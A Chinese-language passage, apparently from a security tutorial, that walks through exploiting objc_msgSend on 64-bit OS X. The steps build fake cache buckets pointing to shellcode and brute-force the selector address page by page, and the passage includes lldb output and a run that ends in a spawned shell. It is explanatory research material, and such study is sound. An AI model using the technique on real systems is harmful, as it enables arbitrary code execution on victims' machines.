具体步骤说明：

*   先申请一块可以执行的内存来存放shellcode。该shellcode功能是起一个sh。
*   在申请一块内存在构建bucket块。NUMBUCKETS的大小设置可以修改，合适就好。
*   开始构建虚假的bucket块。一共构建了NUMBUCKETS+1个。

每个bucket的rip(即imp)都指向shellcode的地址。

bucket的sel就是对应的length方法的选择子地址，也就是字符串的地址。这个就涉及到了OS X系统共享区域(Shared Region)的动态库dylib加载空间问题了。在64bit OS X系统里面共享区域开始于地址0x7FFF80000000。动态库加载地址会随机加上一个偏移。但是偏移都是以内存页为单位的，一个页的大小是0x1000。

通过在一个正常程序NSString类的length方法上下了断点，执行程序断在此处查看调用时的第二个参数rsi寄存器的值，我们就能得到这个length的地址

```
Process 5001 stopped
* thread #1: tid = 0x54aeb, 0x00007fff927cf1d0 CoreFoundation`-[__NSCFString length], queue = 'com.apple.main-thread', stop reason = breakpoint 1.32
    frame #0: 0x00007fff927cf1d0 CoreFoundation`-[__NSCFString length]
CoreFoundation`-[__NSCFString length]:
->  0x7fff927cf1d0 <+0>: pushq  %rbp
    0x7fff927cf1d1 <+1>: movq   %rsp, %rbp
    0x7fff927cf1d4 <+4>: popq   %rbp
    0x7fff927cf1d5 <+5>: jmp    0x7fff927cdcd0            ; _CFStringGetLength2
(lldb) re r rsi
     rsi = 0x00007fff907bb509
(lldb) x 0x00007fff907bb509
0x7fff907bb509: 6c 65 6e 67 74 68 00 69 73 54 79 70 65 4e 6f 74  length.isTypeNot
0x7fff907bb519: 45 78 63 6c 75 73 69 76 65 3a 00 61 70 70 65 6e  Exclusive:.appen

```

由于加载以页为单位所以 后面的12bit 509是不会改变的。我们构建虚假bucket时就以0x1000为单位进行不断尝试每个地址。如果NUMBUCKETS的大小还不够，还可以增加。如果执行正确总会碰撞到正确的sel。从而转到imp。

*   构建虚假的objc_object结构，即代码中的fakecache，前面的superclass变量可随意填充。fc.mask和fc.bucketptr设置成对应值。
*   新建一个NSString类实例指针l。将l指针的地址改为fc的地址。
*   对l调用方法length。这样会调用objc_msgSend函数。

如果一些正常执行回执行shellcode，启动一个sh

```
MacBook:~ vvun91e0n$ /Users/vvun91e0n/Desktop/OC64exploit
[+] Setting up shellcode
[+] Setting up buckets
[+] Setting up fc
[+] fc @ 0x7fff57daba70
[+] Class @ 0x7f8733c0d410
[+] Buckets @ 0x107ecd000
[+] String length: 0xb
[+] Overwriting object
[+] Calling method
sh-3.2$ 

```

在调试的时候可以利用添加条件断点断在最后一个溢出时调用的objc_msgSend处，利用单步执行ni命令。一条一条执行进行调试。利用disasseble命令查看objc_msgSend函数的反汇编代码。
